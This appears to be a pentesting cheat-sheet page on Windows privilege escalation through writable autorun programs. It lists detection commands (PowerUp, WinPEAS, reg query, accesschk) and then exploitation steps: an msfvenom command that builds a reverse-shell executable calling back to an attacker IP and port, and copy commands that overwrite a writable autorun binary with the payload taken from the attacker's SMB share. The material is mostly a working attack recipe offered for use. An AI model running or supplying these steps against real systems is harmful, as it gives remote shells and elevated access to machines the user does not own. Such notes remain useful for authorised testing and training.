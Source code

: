 # 3. Autorun

## Detection
- Get-ModifiableRegistryAutoRun (PowerUp.ps1)
- WinPEAS : Section -> Autorun Applications
- reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
- accesschk64.exe -wvu "C:\Program Files\Autorun Program"

## Exploitation
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.19.155 LPORT=9001 -f exe -o shell.exe
copy \\10.9.19.155\kali\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
copy z:\shell.exe "C:\Program Files\Autorun Program\<program_name>" /Y
	# Wait for someone to connect
	
# Note: Windows rename automatically the reverse shell program
```
